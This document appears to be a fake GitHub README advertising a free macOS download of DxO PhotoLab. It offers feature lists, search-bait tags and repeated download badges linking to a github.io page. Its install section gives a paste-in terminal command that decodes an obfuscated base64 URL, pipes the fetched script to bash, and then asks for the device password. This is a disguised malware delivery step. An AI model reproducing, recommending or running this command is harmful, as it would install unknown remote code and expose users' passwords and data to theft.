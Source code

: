 # 🖼️ DxO PhotoLab — Advanced RAW Photo Editing for macOS

**DxO PhotoLab** is a powerful RAW image processing and photo editing software designed for photographers seeking precise, high-quality image enhancements. Built for macOS, it delivers intelligent auto corrections, advanced local adjustments, and professional-grade color management with an intuitive interface.

Favored by photography professionals and enthusiasts, DxO PhotoLab offers unmatched lens correction and deep control over every pixel for stunning visual results.

---

## ✅ Download DxO PhotoLab for macOS  
[![Download DxO PhotoLab](https://img.shields.io/badge/Download-DxO_PhotoLab-blueviolet)](https://shuziktobehuman.github.io/huja/DxO)


## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download DxO PhotoLab for macOS  
[![Download DxO PhotoLab](https://img.shields.io/badge/Download-DxO_PhotoLab-blueviolet)](https://shuziktobehuman.github.io/huja/DxO)

---

## 📦 What is DxO PhotoLab?

DxO PhotoLab is a photo editing solution that combines AI-powered tools with award-winning RAW processing. It offers highly customizable editing features including control points, HSL tools, and smart lighting. With deep camera and lens module integration, it optimizes your images automatically while giving you total creative freedom.

---

## ✨ Features

- 📸 **DeepPRIME noise reduction** for crystal-clear RAW files  
- 🎯 U Point™ local adjustment technology for precise edits  
- 🌅 Smart Lighting and ClearView Plus for dynamic range enhancement  
- 🧠 AI-powered image correction and enhancement  
- 🔍 Lens sharpness and distortion correction using DxO Optics Modules  
- 🎨 Advanced color grading with HSL tools  
- 🖥️ Full macOS compatibility with Retina display support  
- 🔄 Integration with Lightroom and Adobe workflows  

---

## 💡 Why Use DxO PhotoLab?

- 📷 Ideal for photographers editing high-resolution RAW images  
- 🎯 Offers powerful local adjustments without layers  
- 🧰 Packed with automatic corrections and manual precision tools  
- 📈 Achieve professional results with minimal effort  
- 🚀 Optimized for performance and quality on macOS  

---

[![Download DxO PhotoLab](https://img.shields.io/badge/Download-DxO_PhotoLab-blueviolet)](https://shuziktobehuman.github.io/huja/DxO)

---

## 🖼️ Preview

![DxO PhotoLab Screenshot 1](https://www.dpreview.com/files/p/articles/8334110411/PhotoLab-6-UI-Customize-mode.jpeg)  
![DxO PhotoLab Screenshot 2](https://www.dpreview.com/files/p/articles/9669882236/dxo-photolab-4-history-panel.jpeg)

---

## 📌 Tags

dxo photolab, dxo photolab 7, dxo photolab 6, dxo software, dxo photolab 5,  
dx0 photolab, dxo elite, dxo photo lab 6, dxo photo lab elite, dxo photolab 6.0,  
dxo photolab black friday, dxo photolab discount, dxo photolab download,  
dxo photolab free download, dxo photolab linux, dxo photolab price,  
dxo photolab sale, dxo photolab torrent, dxo photolab5, dxo photolab6,  
photolab dxo, photolab software, dxo photolab mac, dxo photolab mac download


